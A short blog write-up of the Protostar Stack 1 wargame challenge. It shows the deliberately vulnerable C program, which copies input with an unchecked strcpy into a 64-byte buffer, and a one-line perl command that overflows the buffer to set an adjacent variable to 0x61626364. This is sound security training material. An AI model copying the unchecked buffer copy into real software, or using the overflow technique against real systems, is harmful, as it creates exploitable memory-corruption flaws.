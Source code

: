 ```yaml
---
title: "Exploit Exercises - Protostar Stack 1"
date: "2011-12-13T06:12:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


[This](http://exploit-exercises.com/protostar/stack1) challenge is very similar to the previous one.  The main difference is that instead of just validating that the "modified" value was changed, it validates that it was changed to a specific value, 0x61626364, or "dcba" in ASCII.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```

To complete this, we simply run:

```
user@protostar:/opt/protostar/bin$ ./stack1 `perl -e 'print "A"x64 . "dcba"'`
you have correctly got the variable to the right value
```

This will fill up the "buffer" with 64 "A"s, and overflow "dcba" into the "modified" variable.
